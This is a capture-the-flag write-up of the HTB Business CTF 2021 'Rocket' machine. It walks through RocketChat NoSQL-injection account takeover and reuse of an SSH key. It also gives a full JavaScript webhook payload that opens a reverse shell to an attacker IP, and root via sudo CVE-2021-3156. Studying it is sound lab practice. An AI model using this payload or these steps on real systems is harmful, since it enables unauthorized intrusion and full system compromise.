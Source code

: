 ```yaml
---
layout: post
title:  "HTB Business CTF 2021 - Rocket writeup"
date:   2021-07-29 20:00:00 +0300
categories: HTB_Business_CTF_2021 CTF
summary: Writeup for the Rocket challenge from HTB's Business CTF from 2021. This was part of their full pwn category which involved getting user and root flags from machines.
---
```


[Rocket](https://ctftime.org/task/16960) was a challenge at the HTB Business CTF 2021 from the 'Full PWN' category.  
These challenges were build like the usual machines from HTB's labs.  
You had to find a way to obtain access and then elevate your privileges on that machine.  
The objective was to find and submit two flags: user & root.  

# Recon

First, let's start with a port scan on this machine.  
![nmap results]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_nmap.png){: .center-image}

We can see that we have 3 ports open: 22, 80 and 3000.  
Port 22 has an OpenSSH server. I couldn't find any obvious issues with that so I'm not starting there considering that I haven't looked at the other ports yet.  
Let's start with 80. It has a web page for a web hosting business.

![Webpage on port 80]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_http.png){: .center-image}

I could see that some names and emails were displayed in there. I noted these down as they might be useful later on.
![First email found]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_email.png){: .center-image}

I also inspected the HTML for that elements. It was easier to copy data that way and this way I also made sure I was not missing any hidden elements.
So now my list of users/emails is:
- Elliot Alderson - elliot@rocket.htb
- Ezekiel Roberts - ezekiel@rocket.htb
- Emma Papadopoulos - emmap@rocket.htb
![All emails]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_emails.png){: .center-image}

Enough for port 80, let's check what's running on 3000 too.  
It looks like there's an instance of RocketChat on that port.  
Looks like this is where the machine gets its name.  

# Exploiting RocketChat

![Rocketchat]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_chat.png){: .center-image}

Looking up RocketChat on exploitDB i found [this](https://www.exploit-db.com/exploits/49960) exploit and I gave it a try.  
For multiple reasons the exploit was not working properly but the service was vulnerable. Time for troubleshooting.  

For that, let's begin by understanding what the exploit does. This is a simplified version that omits some details:
- the first part of the exploit takes over a regular user account by using blind noSQL injection and obtaining a password reset token  
This is quite slow as the token gets extracted one character at a time
- the second part of the exploit is attempting to use a similar method in order to obtain an admin account  
The main difference is that the exploit used for this requires access (that's why we previously got a regular account) and this will try to also obtain the code used for 2FA which is more commonly seen on admin accounts.
- the last part uses the admin account to create a new integration and obtain code execution on the machine

Now, I think the main reason why this does not work is because 2FA is not used so when the script tries to login expecting a one-time password it fails.  
However, the first part of the exploit (noSQL injection in order to take over an account) works perfectly. And because no 2FA is used for admin accounts we can take over these too if we want to.  
This is how it looks when the first part of the script is running.

![Rocketchat exploit]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_exploit.png){: .center-image}

After it is done, we can login as that user by using the newly reset password. You can see and change the password inside the script from exploitDB that we talked about above (by default it is P@$$w0rd!1234).  
First, I tried this with emmap@rocket.htb but I could only access some chat logs and nothing more.  
So I decided that it's time to try with a more privileged account: elliot@rocket.htb was stated to be 'Owner & CEO' so he should probably have more privileges.  

![Rocketchat exploit]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_exploit2.png){: .center-image}

After logging in as elliot we could see a list of users for RocketChat.  
You may have noticed that if you tried to also reset Ezekiel's account you couldn't. Here you can see the reason why: his email is different than the one appearing on the main website.  

![Rocket chat users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_users.png){: .center-image}

# Getting a shell (user)

By using this account we also had access to the administration menu (at /admin).  
We'll use the last step from the exploit mentioned above in order to get a shell on the server. For that, we'll have to use the integrations menu.

![Integrations menu]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_integrations.png){: .center-image}

This allows us to define scripts and run them when a certain URL is accessed (webhooks).  
We can obviously exploit this by putting in a script that creates a reverse shell.  

We had to use JavaScript as this was the language used by RocketChat integrations, so here is our js payload:
{% highlight javascript %}
class Script {
  process_incoming_request({ request }) {
    const require = console.log.constructor('return process.mainModule.require')();
    const { execSync } = require('child_process');
    
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    
    client.connect(1337, "10.10.14.103", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    
    return {
      content:{
        text: JSON.stringify(res)
      }
    }
  }
}

{% endhighlight %}

![Payload]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_payload.png){: .center-image}

We create the new webhook and we get the URL and token that should be used to call it and execute the script.  
We use curl to access that URL and trigger the script. This was made simple by the fact that we could copy a curl command from the rocketChat UI.  

![Calling the endpoint with cURL]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_curl.png){: .center-image}

We look at the netcat listener that was left running and we have a shell.  
It looks like we're running as the "ezekiel" user.

![Getting a user shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_shell1.png){: .center-image}

# Persistent access

This is not something that I usually try on CTF boxes but on HTB machines this is often a feature.  
We can look in ~/.ssh at the authorized_keys files. In this case, the key of this user grants access to this box by using ssh.  
![Looking for ssh info]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_ssh1.png){: .center-image}

So, we can copy the private key to our local machine and use that to authenticate.  
As I said before, this is a common feature on HTB boxes. Especially when you get in through an exploit like this on a public box.  

![Logging in using ssh]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_ssh2.png){: .center-image}

# User flag
I almost forgot about the flag. Typical location for a HTB box: in the user's home directory. 

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_user_flag.png){: .center-image}

# Privilege escalation

Now, let's find a way to escalate our privileges and get root.  
After I ran [linenum.sh](https://github.com/rebootuser/LinEnum) on the box, I noticed that the sudo version was a bit outdated.  

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_sudo_version.png){: .center-image}

After a quick search, I found out that this version is vulnerable to CVE-2021-3156. I also found a PoC for that exploit [here](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit).  
I moved the files to the server using scp because I already had the key obtained above & this was the simplest method.  

Conveniently enough, the server already had gcc and make so I could build the exploit right on that machine.

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_root.png){: .center-image}

After running it, I got a root shell & I could get the root flag too.

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2021/rocket_root_flag.png){: .center-image}
